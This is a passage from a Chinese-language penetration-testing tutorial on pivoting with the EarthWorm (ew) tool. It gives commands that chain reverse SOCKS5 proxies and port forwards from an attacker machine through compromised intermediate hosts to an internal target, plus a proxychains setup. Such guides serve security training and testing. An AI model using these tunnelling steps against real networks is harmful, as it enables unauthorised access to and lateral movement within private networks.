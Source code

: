 **反向代理：**

在攻击机A1执行，本地启动流量转发，将来自外部1080端口的流量转发到本地的8888端口，并等待目标反弹连接：

```bash
./ew -s rcsocks -l 1080 -e 8888

```

在V1执行，将A1的8888端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_slave -d 120.x.x.x -e 8888 -f 10.10.2.111 -g 9999

```

在V2执行，本地启动流量转发，将来自外部9999端口的流量转发到本地的7777端口，等待目标机V3反弹连接：

```bash
./ew -s lcx_listen -l 9999 -e 7777

```

在目标机V3执行，启动socks5服务，并反弹到V2的7777端口：

```bash
./ew -s rssocks -d 10.10.2.111 -e 7777

```

代理通道架设完毕，访问A1的1080相当于访问V3的7777端口，在攻击机A1上使用proxychain将流量代理到本地1080端口，相当于把流量代理到目标机V3上了，在A1上发起请求相当于在V3上发起请求。

A1上proxychains代理配置：

```bash
[ProxyList]
socks5    127.0.0.1    1080

```

### 场景四：三级级联下的端口转发操作

ew同样支持内网端口转发，现将内网目标机V3上的web应用端口代理到外网。

**正向代理：**

假设目标机V1有公网IP（139.x.x.x），可以使用正向的方式代理流量。

在V1上启动流量转发，将V1的1080端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 1080 -f 10.10.2.111 -g 9999

```

在V2上启动流量转发，将V2的9999端口与V3的8080端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 9999 -f 10.10.3.111 -g 8080

```
